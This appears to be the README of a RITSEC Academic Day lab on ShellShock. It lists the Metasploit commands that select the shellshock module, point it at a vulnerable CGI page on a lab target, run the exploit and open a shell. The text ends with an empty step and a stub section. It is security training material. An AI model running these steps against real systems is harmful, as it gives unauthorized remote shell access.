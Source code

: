 # RITSEC Academic Day - ShellShock 

## Background
What is metasploit, what is shellshock, etc.C  

## Setup
Click the Black Box with the "$_" to open the terminal.
![terminal](terminal.png)

## Attacking the Box - Commands To Run
This will open the Metasploit Console.
1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.png)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.png)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Attack the box!

7. `exploit`

With the meterpreter prompt, enter `shell` to spawn a bash prompt on the box.

8. 

## adding your own page
